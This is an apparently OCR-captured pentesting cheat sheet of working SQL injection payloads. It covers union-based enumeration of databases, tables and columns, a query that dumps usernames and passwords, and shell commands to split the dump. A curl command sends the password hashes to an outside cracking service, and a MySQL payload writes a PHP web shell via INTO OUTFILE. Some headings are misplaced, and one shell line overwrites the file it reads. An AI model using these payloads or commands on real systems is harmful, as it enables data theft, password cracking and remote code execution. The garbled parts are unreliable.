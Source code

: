**Note:** When testing for blind SQL injection, don't always expect 5xx when the statement is wrong. Look for results if the statement is correct; if the statement is wrong, results may not be present.

### **Union-Based SQL Injection**

- Example to identify the name of databases:
    - **`' union SELECT schema_name,null,null,null FROM information_schema.schemata--`**
- Example to identify tables in a particular database:
    - **`' union SELECT TABLE_NAME,null,null,null FROM information_schema.TABLES WHERE table_schema='Staff'--`**
- Example to identify column names of a particular table:

### **Union-Based SQL Injection for Dumping Data**

```sql
' union SELECT column_name,null,null,null FROM information_schema.columns WHERE table_name = 'StaffDetails'--
```

### **Dumping Data**

```sql
' union SELECT group_concat(Username,":",Password),null,null,null FROM users.UserDetails--
```

**Note:** Use the last database name and table name in the query. Otherwise, use the database name at last; it's usually sufficient.

### **Making Dumped Data Readable**

```bash
cat userPass | tr "," "\n" > userPass
cut -d ":" -f1 userPass | tee -a user
cut -d ":" -f2 userPass | tee -a pass
```

### **Crack Passwords Using CrackStation**

1. Prepare the data:
    
    ```bash
    cat pass | curl -s --data-binary @- https://crackstation.net/api/v1/crack -H "Content-Type:text/plain" > cracked_pass.txt
    ```
    
2. Analyze the results in **`cracked_pass.txt`**.

### **Remote Code Execution (RCE) Examples**

### MySQL

```sql
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```
